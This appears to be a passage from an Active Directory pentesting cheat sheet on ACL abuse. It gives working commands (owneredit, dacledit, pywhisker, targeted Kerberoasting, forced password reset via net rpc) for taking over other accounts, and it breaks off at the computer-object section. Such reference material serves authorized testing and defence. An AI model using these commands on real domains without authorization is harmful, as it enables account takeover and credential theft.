 ##### WriteOwner
With this rights on a user it is possible to become the "owner" (**Grant Ownership**) of the account and then change our ACLs against it

```bash
owneredit.py -new-owner user1 -target user2 -dc-ip <DC_IP> -action write 'domain.local'/'user1':'password'
dacledit.py -action write -target user2 -principal user1 -rights ResetPassword -ace-type allowed -dc-ip <DC_IP> 'domain.local'/'user1':'password'

#And change the password
net rpc password user2 -U 'domain.local'/'user1'%'password' -S DC.domain.local
```

##### WriteDacl
With this rights we can modify our ACLs against the target, and give us **GenericAll** for example

```bash
dacledit.py -action write -target user2 -principal user1 -rights FullControl -ace-type allowed -dc-ip <DC_IP> 'domain.local'/'user1':'password'
```

#### On an user

##### WriteProperty
* ShadowCredentials

```bash
pywhisker.py -t user2 -a add -u user1 -p password -d domain.local -dc-ip <DC_IP> --filename user2
```

* Targeted Kerberoasting

We can then request a TGS without special privileges. The TGS can then be "**Kerberoasted**".

```bash
GetUserSPNs.py -request-user user2 -dc-ip <DC_IP> domain.local/user1:password
```

**New SPN must be unique in the domain**

```bash
#Set SPN on all the possible users, request the ticket and delete the SPN
targetedKerberoast.py -u user1 -p password -d domain.local --only-abuse
```

##### User-Force-Change-Password
With enough permissions on a user, we can change his password

```bash
net rpc password user2 -U 'domain.local'/'user1'%'password' -S DC.domain.local
```

#### On a computer

##### WriteProperty
* ShadowCredentials
